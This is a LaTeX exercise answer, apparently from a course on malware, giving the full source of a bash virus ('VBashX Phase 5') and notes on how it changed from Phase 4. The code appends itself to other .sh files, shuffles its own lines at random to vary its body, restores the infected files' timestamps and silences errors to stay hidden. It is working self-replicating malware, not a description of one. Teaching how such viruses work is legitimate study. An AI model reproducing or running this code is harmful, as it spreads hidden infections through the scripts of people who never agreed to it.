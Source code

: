 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{correction}

The complete Phase 5 virus integrates all 3 stealth techniques into the Phase 4 code:
\begin{lstlisting}[title=vbashx\_phase5.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 5 --- VBX_7k9Pz
REST_SIZE=13
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
trap "rm -f $TMP .vbx_ref_*" EXIT
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP
exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f" 2>/dev/null)" ]; then #@4#
cp -p "$f" ".vbx_ref_$$" 2>/dev/null #@5#
REST_S=13; LI_S=16; VS=$(($REST_S + $LI_S)) #@6#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" 2>/dev/null #@7#
r=$(( ($RANDOM % 16) + 1 )) #@8#
n=1 #@9#
while [ $n -le $LI_S ]; do #@10#
grep "#@${r}#" "$SRC" >> "$f" 2>/dev/null #@11#
r=$(( ($r * 3) % 17 )) #@12#
n=$(($n + 1)); done #@13#
touch -r ".vbx_ref_$$" "$f" 2>/dev/null #@14#
rm -f ".vbx_ref_$$" 2>/dev/null #@15#
fi; fi; done #@16#
\end{lstlisting}

\textbf{Changes from Phase 4:}
\begin{itemize}
    \item \textbf{Line 8:} \texttt{trap} for automatic cleanup on exit (5b)
    \item \textbf{Tagged lines \#@4\#, \#@5\#, \#@7\#, \#@11\#:} added \texttt{2>/dev/null} to suppress errors (5c)
    \item \textbf{Line \#@5\#:} \texttt{cp -p} to save the original file's attributes (5a)
    \item \textbf{Line \#@14\#:} \texttt{touch -r} to restore timestamps after infection (5a)
    \item \textbf{Line \#@15\#:} cleanup of the reference file after timestamp restoration
\end{itemize}

\textbf{5c)} The \texttt{2>/dev/null} hides the following errors:
\begin{itemize}
    \item \texttt{grep}: error if the file does not exist or is not readable
    \item \texttt{cp/tail}: error on insufficient permissions
    \item \texttt{touch}: error if the reference file has been deleted
\end{itemize}


\end{correction}
\end{exercice}
\end{document}
